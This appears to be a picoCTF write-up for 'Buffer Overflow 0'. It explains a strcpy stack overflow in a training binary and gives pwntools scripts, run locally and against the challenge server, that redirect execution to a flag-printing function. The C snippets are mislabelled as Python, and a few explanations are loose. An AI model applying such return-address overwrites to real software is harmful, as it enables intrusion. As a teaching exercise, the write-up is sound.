 

![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&width=435&size=35&lines=Buffer+Overflow+0)
<br>
![Typing SVG](https://readme-typing-svg.herokuapp.com?font=Fira+Code&weight=500&pause=1000&color=F70000&width=435&lines=Binary+Exploitation)

![Challenge Description](chal_desc.png)

In this challenge we were given an ELF 32 bit executable and its source code. When we run the executable:

![Run ./vuln](run_vulns.png)

Let's examine the source code.
The challenge's name indicates that we're facing a buffer overflow vulnerability. The vulnerable part of the code is :

```python
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
the variable buf2 has a capacity of 16 bytes meanwhile the function ignores its length and copies the content of the argument input which can be arbitrarily long into the variable buf2. That'll cause the program to fill the space destined for the variable input and fills up adjacent places in the memory. These "adjacent spaces" can be very sensitive. Since they control the execution of the program. Let's now take a look at a dangerous function.

```python
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function is only written and not called. That seems hopeless! Not a bit! There's something in the memory called EIP register (in the 32bit architecture) which contains the adress of the next instruction that'll be executed. Of course, the whole code is transformed into assembly and instruction has an adress. That's it ! We just need now to implement the exploit.

Let's fire up gdb and look for the adress of the function sigsegv_handler() using the commnad `info functions`
![sigsegv_handler addr](info_functions.png)

It is located at the adress at the adress 0x0000130d
We can use the ![offset calc](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)(Website) to find the offset which is sort of the distance from the variable buf2 in the memory and the EIP register. We find that it is 28. So, we fill 28 bytes in the memory starting from the variable buf2 and followed by the adress of the sigsegv_handler() in shellcode.
We can use the following code in our local machine with a fake flag file to test.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = process("./vuln")
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
``` 

![fake flag](local_exp.png)
<br>
It worked! It printed the fake flag FLAG_FLAG

Now let's try to exploit it remotely and find the flag !
for that we need to modify our python script.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = remote("saturn.picoctf.net", 51532)
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
```
<br>
and we get the final flag !!

![final flag](final_flag.png)
